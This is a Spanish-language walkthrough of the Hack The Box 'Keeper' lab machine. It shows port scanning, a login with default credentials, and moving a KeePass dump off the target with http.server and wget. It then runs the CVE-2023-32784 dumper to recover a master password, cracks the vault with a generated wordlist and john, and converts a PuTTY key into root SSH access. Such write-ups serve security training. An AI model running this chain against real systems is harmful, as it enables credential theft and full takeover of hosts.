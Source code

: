 ```yaml
---
title: HackTheBox - Keeper
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Default Credentials', 'Keepass Dump (CVE-2023-32784)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Keeper/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Keeper Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Default Credentials, Keepass Dump (CVE-2023-32784)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Keeper`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Keeper/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos**

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Keeper/02-versions.png)


> Al visitar la página web veremos un host, el cual añadimos al archivo **`/etc/hosts`**
{: .prompt-info }

![](/assets/images/HTB/Easy/Keeper/03-web.png)


* Al visitar el host **tickets.keeper.htb** vemos el siguiente logo

    ![](/assets/images/HTB/Easy/Keeper/04-logo.png)

* Si buscamos por credenciales por defecto veremos **root:password**, después de autenticarnos buscamos usuarios válidos

    ![](/assets/images/HTB/Easy/Keeper/05-users.png)

* Seleccionamos al usuario **lnorgaard** y en su descripción obtendremos una contraseña válida para **SSH**

    ![](/assets/images/HTB/Easy/Keeper/06-pass.png)

d. Nos autenticamos en el servicio **SSH**

```bash
root@kali> ssh lnorgaard@10.10.11.227
lnorgaard@keeper:~$ 
```

### Escalada de Privilegios 💹

a. En nuestro directorio personal veremos una archivo **.zip**

```bash
lnorgaard@keeper:~$ ls -la
total 332856
<SNIP>
-rw-r--r-- 1 root      root       87391651 Aug 25 05:44 RT30000.zip
```

* Transferimos este archivo a nuestra máquina atacante para analizarlo

    ```bash
    lnorgaard@keeper:~$ python3 -m http.server 4444
    --------------------------------------------------------
    root@kali> wget http://<IP Keeper>:4444/RT30000.zip -o-
    root@kali> unzip RT30000.zip
    root@kali> ls
    -rw-r--r-- 1 root root 253395188 May 24 05:51 KeePassDumpFull.dmp
    -rw-r--r-- 1 root root      3629 Aug 23 12:43 passcodes.kdbx
    ```

b. Extraemos el hash del fichero **.kdbx** (**`keepass2john passcodes.kdbx > hash`**), como tenemos un archivo **.dmp** buscamos sobre al relacionado a **Keepass** y **.dmp**

* Nos encontramos con [CVE-2023-32784](https://github.com/vdohney/keepass-password-dumper), vemos que a través de un archivo **.dmp** de Keepass podemos llegar a obtener la contraseña en texto claro

    ```bash
    root@kali> dotnet run KeePassDumpFull.dmp 
    1.:     ●
    2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
    3.:     d, 
    4.:     g, 
    5.:     r, 
    6.:     ø, 
    7.:     d, 
    8.:      , 
    9.:     m, 
    10.:    e, 
    11.:    d, 
    12.:     , 
    13.:    f, 
    14.:    l, 
    15.:    ø, 
    16.:    d, 
    17.:    e, 
    Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
    ```
    > El primer carácter no fue capaz de extraerse y el segundo puede ser cualquiera entre **{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}**


    > En caso de obtener un error al ejecutar el comando anterior, modificamos el fichero **`keepass_password_dumper.csproj`** con esto:
    {: .prompt-tip }


    ```xml
    <Project Sdk="Microsoft.NET.Sdk">
        <PropertyGroup>
        <OutputType>Exe</OutputType>
        <TargetFramework>net6.0</TargetFramework>
        <ImplicitUsings>enable</ImplicitUsings>
        <Nullable>enable</Nullable>
        </PropertyGroup>
    </Project>
    ```

c. Creamos un script en **python** para crear un diccionario con posibles contraseñas basándonos en el output del script

```python
import string
possible_password = 'dgrød med fløde'

string_global = string.ascii_letters + string.digits + string.punctuation
posible_second_character = "øÏl`-',]§AI:=_cM"

for second in posible_second_character:
	for letter in string_global:
		partial = second + possible_password 
		print(letter + partial)
```

```bash
python3 script.py > possible_passwords.txt
```

* Crackeamos el hash usando el diccionario creado previamente

    ```bash
    root@kali> john hash -w=./possible_passwords.txt 
    ```

d. Con la credencial obtenida podemos leer el contenido del fichero **passcodes.kdbx**

![](/assets/images/HTB/Easy/Keeper/07-keepass.png)

* El usuario root tiene una clave **Putty** y para transformarla a pares de claves **SSH**, copiamos esta clave en una archivo **.ppk** y usamos este [blog](https://www.baeldung.com/linux/ssh-key-types-convert-ppk)

```bash
root@kali> puttygen file.ppk -O public-openssh -o id_rsa.pub
root@kali> puttygen file.ppk -O private-openssh -o id_rsa
root@kali> chmod 600 id_rsa
```

c. La clave **id_rsa** nos sirve para autenticarnos en el servicio **SSH** como el usuario root

```bash
root@kali> ssh root@<IP Keeper> -i id_rsa
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

root@keeper:~#
```